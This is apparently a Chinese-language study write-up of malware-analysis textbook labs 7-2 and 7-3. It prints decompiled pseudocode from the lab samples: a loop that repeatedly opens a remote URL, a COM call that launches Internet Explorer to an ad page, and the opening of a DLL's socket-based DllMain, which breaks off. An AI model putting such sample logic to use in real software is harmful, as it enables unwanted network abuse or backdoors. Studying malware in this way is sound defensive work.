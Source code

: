 ```c
  for ( i = InternetOpenA(szAgent, 1u, 0, 0, 0); ; InternetOpenUrlA(i, szUrl, 0, 0, 0x80000000, 0) )
    ;
}
```

### Lab 7-2

所有代码如下，显而易见没有持久化，不退出等操作：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  OLECHAR *v3; // esi
  LPVOID ppv; // [esp+0h] [ebp-24h] BYREF
  VARIANTARG pvarg; // [esp+4h] [ebp-20h] BYREF
  __int16 v7[4]; // [esp+14h] [ebp-10h] BYREF
  int v8; // [esp+1Ch] [ebp-8h]

  if ( OleInitialize(0) >= 0 )
  {
    CoCreateInstance(&rclsid, 0, 4u, &riid, &ppv);
    if ( ppv )
    {
      VariantInit(&pvarg);
      v7[0] = 3;
      v8 = 1;
      v3 = SysAllocString(psz);
      (*(*ppv + 0x2C))(ppv, v3, v7, &pvarg, &pvarg, &pvarg);
      SysFreeString(v3);
    }
    OleUninitialize();
  }
  return 0;
}
```

这个`COM`组件有一个规定就是，如果程序想要使用COM组件那么在程序开头必须调用一个或以上的`OleInitialize`或者`CoInitializeEx`让`COM`初始化，而`CoCreateInstance`为创建一个`COM`组件，其中`rclsid`为`Internet Explorer`，`riid`为`IWebBrowser2`。或许是无法识别的原因，这个`*ppv + 0x2C`，也就是`[edx+2Ch]`这个地址其实是`Navigate`函数，这个函数就可以使程序启动`Internet Explorer`，第二个参数（v3）就是弹出浏览器的地址（`http://www.malwareanalysisbook.com/ad.html`）。

### Lab 7-3

DLL：

```c
BOOL __stdcall DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
{
  SOCKET v3; // esi
  HANDLE hObject; // [esp+10h] [ebp-11F8h]
  struct sockaddr name; // [esp+14h] [ebp-11F4h] BYREF
  struct _PROCESS_INFORMATION ProcessInformation; // [esp+24h] [ebp-11E4h] BYREF
  struct _STARTUPINFOA StartupInfo; // [esp+34h] [ebp-11D4h] BYREF
  struct WSAData WSAData; // [esp+78h] [ebp-1190h] BYREF
  char buf[4093]; // [esp+208h] [ebp-1000h] BYREF
  __int16 v11; // [esp+1205h] [ebp-3h]
  char v12; // [esp+1207h] [ebp-1h]

  if ( fdwReason == 1 )
  {
    buf[0] = byte_10026054;
    memset(&buf[1], 0, 0xFFCu);		//初始化
    v11 = 0;
    v12 = 0;
```